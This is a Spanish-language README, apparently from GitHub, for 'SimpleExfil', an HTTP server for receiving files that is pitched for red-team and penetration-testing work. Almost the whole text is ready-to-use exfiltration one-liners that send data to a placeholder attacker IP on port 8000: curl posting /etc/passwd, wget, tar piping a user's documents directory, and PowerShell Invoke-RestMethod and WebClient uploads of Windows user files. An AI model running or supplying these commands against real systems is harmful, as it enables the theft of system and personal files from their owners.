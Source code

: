 # SimpleExfil
Un servidor HTTP simple para recepción de archivos diseñado para actividades de Red Team y Penetration Testing.

## Exfiltrar archivos desde sistema objetivo
bash# curl -X POST -F "file=@/etc/passwd" http://[IP-ATACANTE]:8000

bash# wget --post-file=/path/to/file http://[IP-ATACANTE]:8000

## Subir múltiples archivos
curl -X POST -F "file=@documento.txt" -F "file=@config.conf" http://[IP-ATACANTE]:8000

## Comprimir y subir directorio
tar czf - /home/user/documents/ | curl -X POST -F "file=@-;filename=documents.tar.gz" http://[IP-ATACANTE]:8000

## PowerShell (Windows)
powershell# Invoke-RestMethod -Uri "http://[IP-ATACANTE]:8000" -Method Post -InFile "C:\Users\user\document.txt" -ContentType "multipart/form-data"

## Usando WebClient
$wc = New-Object System.Net.WebClient
$wc.UploadFile("http://[IP-ATACANTE]:8000", "C:\Users\user\file.txt")

